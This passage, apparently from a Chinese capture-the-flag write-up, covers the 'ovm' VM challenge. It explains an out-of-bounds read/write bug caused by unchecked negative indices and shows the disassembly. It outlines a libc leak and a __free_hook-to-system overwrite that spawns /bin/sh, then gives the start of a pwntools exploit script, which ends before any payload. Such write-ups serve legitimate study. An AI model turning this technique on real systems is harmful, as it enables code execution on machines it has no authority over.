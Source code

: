 ```
        return u32((p8(0x40)+p8(src)+p8(0)+p8(idx))[::-1])
*/
```

利用其中的shift_l，add，set，read，write功能即可解题。

**漏洞点**：在读写内存时，read/write功能时，没有检查索引的正负值导致可以向上索引，实现越界读写。

movsxd带符号扩展，int类型。

```
.text:0000000000000F24                 movzx   edx, [rbp+one_byte]
.text:0000000000000F28                 lea     rax, reg
.text:0000000000000F2F                 movsxd  rdx, edx
.text:0000000000000F32                 mov     ecx, [rax+rdx*4]
.text:0000000000000F35                 movzx   edx, [rbp+three_byte]
.text:0000000000000F39                 lea     rax, reg
.text:0000000000000F40                 movsxd  rdx, edx
.text:0000000000000F43                 mov     eax, [rax+rdx*4]
.text:0000000000000F46                 mov     esi, eax
.text:0000000000000F48                 lea     rax, memory
.text:0000000000000F4F                 movsxd  rdx, ecx
.text:0000000000000F52                 mov     [rax+rdx*4], esi
.text:0000000000000F55                 jmp     loc_1205
```

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E8%BF%87%E7%A8%8B"></a>利用过程
1. 越界读got表中的地址。
1. 利用打印功能通过打印寄存器输出libc地址。
1. 越界写，覆盖moment地址为__free_hook-8。
1. 最终覆盖freehook为system，触发，执行system(‘/bin/sh’)。
测试环境ubuntu 18.04

```
#https://github.com/matrix1001/welpwn
from PwnContext import *

try:
    from IPython import embed as ipy
except ImportError:
    print ('IPython not installed.')

if __name__ == '__main__':        
    context.terminal = ['tmux', 'splitw', '-h']
    context.log_level = 'debug'
    # functions for quick script
    s       = lambda data               :ctx.send(str(data))        #in case that data is an int
    sa      = lambda delim,data         :ctx.sendafter(str(delim), str(data)) 
    sl      = lambda data               :ctx.sendline(str(data)) 
    sla     = lambda delim,data         :ctx.sendlineafter(str(delim), str(data)) 
    r       = lambda numb=4096          :ctx.recv(numb)
    ru      = lambda delims, drop=True  :ctx.recvuntil(delims, drop)
    irt     = lambda                    :ctx.interactive()
    rs      = lambda *args, **kwargs    :ctx.start(*args, **kwargs)
    dbg     = lambda gs='', **kwargs    :ctx.debug(gdbscript=gs, **kwargs)
    # misc functions
    uu32    = lambda data   :u32(data.ljust(4, ''))
    uu64    = lambda data   :u64(data.ljust(8, ''))

    ctx.binary = './ovm'
    #ctx.custom_lib_dir = '/home/rhl/Desktop/CTF/glibc-all-in-one/libs/2.23-0ubuntu10_amd64' #change the libs
    #ctx.remote_libc = './libc.so'  #only change the libc.so  
    #ctx.remote = ('172.16.9.21', 9006)
    #ctx.debug_remote_libc = True
```